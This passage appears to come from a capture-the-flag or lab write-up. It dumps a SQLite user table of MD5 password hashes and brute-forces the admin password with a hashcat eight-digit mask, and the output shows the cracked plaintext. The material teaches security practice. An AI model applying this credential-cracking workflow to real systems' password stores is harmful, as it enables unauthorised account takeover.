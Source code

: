 Next I looked at the user table.

```sql
sqlite> Select * From user;
1|admin|688ba961dd8e6ca07ff0f5b815b7a958
2|Brian|d543d0dd6a83351773d2ed2be4236538
3|Dispatch|ea1b8916fc7933872fc79723d2e7d2db
```

It has three password hash. I had tried a password reset on the user admin, so I knew there password would be composed of 8 digits. I used `hashcat` to crack it.

```bash
$ cat hash.txt           
admin:688ba961dd8e6ca07ff0f5b815b7a958
Brian:d543d0dd6a83351773d2ed2be4236538
Dispatch:ea1b8916fc7933872fc79723d2e7d2db



$ hashcat -a3 -m0 --username hash.txt "?d?d?d?d?d?d?d?d"
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 7 PRO 5850U with Radeon Graphics, 6849/13763 MB (2048 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 3 digests; 3 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Brute-Force
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

688ba961dd8e6ca07ff0f5b815b7a958:18435268
Approaching final keyspace - workload adjusted.


Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: hash.txt
Time.Started.....: Sun May 19 09:55:03 2024 (0 secs)
Time.Estimated...: Sun May 19 09:55:03 2024 (0 secs)
Kernel.Feature...: Pure Kernel
```